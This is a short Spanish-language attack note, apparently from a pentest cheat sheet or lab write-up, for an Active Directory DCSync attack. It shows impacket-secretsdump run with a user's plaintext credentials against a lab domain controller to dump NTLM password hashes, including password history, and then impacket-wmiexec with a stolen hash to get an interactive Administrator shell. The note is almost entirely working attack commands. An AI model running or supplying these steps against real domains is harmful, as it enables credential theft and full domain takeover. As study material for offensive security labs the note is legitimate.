 Cuando un usuario tiene privilegios en DS_Replication-Get-Changes-All en el dominio.

** Ataque **
> `impacket-secretsdump -just-dc mrlky:Football#7@10.10.10.103`
> Obtenemos los hashes NTML.
> Con el comando --history añadido podemos además ver los cambios históricos en las contraseñas de los usuarios. Se pueden crackear para ver si hay patrones.
> Copiar segunda parte del hash y utilizar:
> `impacket-wmiexec -hashes <hash> Administrator@10.10.10.103`
> Obtenemos shell interactiva como usuario Administrator.
